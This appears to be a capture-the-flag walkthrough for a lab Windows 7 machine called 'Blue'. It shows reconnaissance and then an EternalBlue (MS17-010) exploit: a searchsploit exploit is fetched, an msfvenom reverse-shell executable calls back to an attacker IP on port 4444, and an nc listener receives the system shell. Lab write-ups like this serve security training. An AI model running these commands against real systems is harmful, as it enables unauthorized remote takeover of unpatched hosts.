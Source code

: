 # Blue

# Recon

## Machine IP Setup

First, we setup the target IP and run AutoRecon on it:

```bash
export IP=10.10.10.40
```

```bash
autorecon $IP -v
```

## Initial Results

The initial results we obtain are as follows:

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled.png)

The Ports that are open are:

- 139: netbios-ssn; Microsoft Windows netbios-ssn
- 445: microsoft-ds; Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
- 135: msrpc; Microsoft Windows RPC
- 49152: msrpc; Microsoft Windows RPC
- 49153: msrpc; Microsoft Windows RPC
- 49154: msrpc; Microsoft Windows RPC
- 49155: msrpc; Microsoft Windows RPC
- 49156: msrpc; Microsoft Windows RPC
- 49157: msrpc; Microsoft Windows RPC

## Full Results

Further scanning showed no other open ports

# Enumeration (Service Version Check)

Nmap Vuln Scan:

```bash
nmap --script vuln -oA vuln $IP
```

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%201.png)

The script shows that the machine is vulnerable to MS17-010, also known as EternalBlue.

This vulnerability gives system access by exploiting Microsoft's implementation of the Server Message Block (SMB) protocol, where a specially crafted packet allows attackers to carry out RCE.

# Initial Foothold

To craft the exploit, we first search for a non-metasploit EternalBlue exploit in the Exploit Database:

```bash
searchsploit --id MS17-010
```

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%202.png)

This will show us a list of exploits, and we should choose to use 42315 as we are on windows 7.

We can clone the exploit into the working directory using the command:

```bash
searchsploit -m 42315
```

To use this exploit, we have to do three things:

1. Download mysmb.py since the exploit imports it. The download location is included in the exploit.
2. Use MSFvenom to create a reverse shell payload
3. Make changes in the exploit to add the authentication credentials and the reverse shell payload.

To accomplish the first task, we can run the following commands to download the file and rename it to mysmb.py:

```bash
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py.1 mysmb.py
```

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%203.png)

To accomplish the second task, we can generate a simple executable with a reverse shell payload with MSFvenom:

```bash
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.17.90 LPORT=4444 > eternal-blue.exe
```

To accomplish the third task, we need change the exploit to add credentials. Since we do not have valid credentials, we can try to use guest login.

To check for that, we can look at the enum4Linux scan that runs with Autorecon on SMB related ports. In the case of this box, the first related port discovered will be port 139, so the enum4Linux result will be situated there:

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%204.png)

As guest login is available, we can simply add the credentials as follows to the 42315.py:

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%205.png)

We can then also add the path to our compiled executable from the second task into the [42315.py](http://42315.py) file as follows:

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%206.png)

Now all we have to do is to set up a listener as follows:

```bash
nc -nvlp 4444
```

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%207.png)

Before we run the exploit file, we can check the connection using:

```bash
python checker.py $IP
```

If we can connect to the machine via this exploit, we will see the following:

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%208.png)

And then we just run the exploit with the command:

```bash
python 42315.py $IP
```

On our listener, we will see that we have root shell:

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%209.png)

# User Flag + Root Flag

From there, we can look for the two flags using the following commands:

```bash
cd C:\
dir user.txt /s
dir root.txt /s
```

![Untitled](Blue%20ae0cff02056c4a508ef55c815ad29dfa/Untitled%2010.png)

To view the contents of the flags, we can simply run the following commands:

```bash
type C:\Users\haris\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

# Learning Points (Additional Points)

- Enum4Linux runs only on the first port that offers SMB
- Issues with searchsploit 42315:
    - Need to install the missing packages:
        - pip install --upgrade setuptools (error: invalid command 'egg_info')
        - python2 -m pip install . (In impacket directory from github, to install impacket for pip2)
    - Change variable name from "password" to "PASSWORD" to resolve naming issue (NameError: global name 'PASSWORD' is not defined)